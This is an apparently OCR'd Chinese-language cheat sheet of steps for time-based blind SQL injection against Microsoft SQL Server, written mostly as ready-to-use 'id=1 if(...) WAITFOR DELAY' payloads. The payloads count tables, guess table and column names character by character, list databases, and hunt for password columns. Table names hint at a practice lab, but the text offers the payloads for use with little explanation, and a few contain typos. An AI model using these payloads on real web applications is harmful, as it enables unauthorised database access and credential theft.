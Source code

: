 ```sql
id=1 if((select count(*) from SysObjects where xtype='u')>5) WAITFOR DELAY '0:0:5'--+
# 当前数据库表的个数为6

6.查询第一个表的长度
# 查询第一个表
id=1 and select top 1 name from SysObjects where xtype='u' 
# 查询结果为1
(select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u')
# 利用and，进行判断，9为表长度的猜测
and len(name)=9
# 第一个表名长度为6
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u') and len(name)=9)=1) WAITFOR DELAY '0:0:5'--+
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u') and len(name)=6)=1) WAITFOR DELAY '0:0:10'--+

7.查询第一个表的表名
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u') and ascii(substring(name,1,1))>90)=1) WAITFOR DELAY '0:0:5'--+
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u') and ascii(substring(name,1,1))=101)=1) WAITFOR DELAY '0:0:5'--+

8.查询第二个表的长度
# 查询第一个表名，去除emails, emails为第一个表名
select top 1 name from SysObjects where xtype='u' and name not in ('emails')
# 同理，第三个表则 and name not in ('emails','uagents')
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u' and name not in ('emials')) and len(name)=6)<>0) WAITFOR DELAY '0:0:5'--+

9.查询第二个表的名字
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u' and name not in ('emails')) and ascii(substring(name,1,1)>100)!=1) WAITFOR DELAY '0:0:5'--+
id=1 if((select count(*) from SysObjects where name in (select top 1 name from SysObjects where xtype='u' and name not in ('emails')) and ascii(substring(name,1,1)>100)!=0) WAITFOR DELAY '0:0:5'--+

10.查询第一个表中的字段
# and name not in ('')查询第二个字段的时候可以直接在其中，排除第一个字段名
id=1 if((select count(*) from syscolumns where name in (select top 1 name from syscolumns where id = object_id('emails') and name not in ('')) and ascii(substring(name,1,1))=1)！=0) WAITFOR DELAY '0:0:1'--+

11.查询字段类型 
id=1 if((select count(*) from information_schema.columns where data_type in(select top 1 data_type from information_schema.columns where table_name ='emails') and ascii(substring(data_type,1,1))=116)!=0) WAITFOR DELAY '0:0:5'--+

12.查询数据
# 查询所有数据库
SELECT Name FROM Master..SysDatabases ORDER BY Name
# 查询存在password字段的表名
SELECT top 1 sb.name FROM syscolumns s JOIN sysobjects sb ON s.id=sb.id WHERE s.name='password'
id=1 if((select count(*) from sysobjects where name in ((select name from sysobjects where name in (SELECT top 1 sb.name FROM syscolumns s JOIN sysobjects sb ON s.id=sb.id WHERE s.name='password') and ascii(substring(sysobjects.name,1,1))>1)))>0) waitfor delay '0:0:1'--
# 查询包含pass的字段名
SELECT top 1 name FROM SysColumns where name like '%pass%'
id=1 if((select count(*) from SysColumns where name in (SELECT top 1 name FROM SysColumns where name like '%pass%' and ascii(substring(name,1,1))>1))>0) waitfor delay '0:0:1'--
```
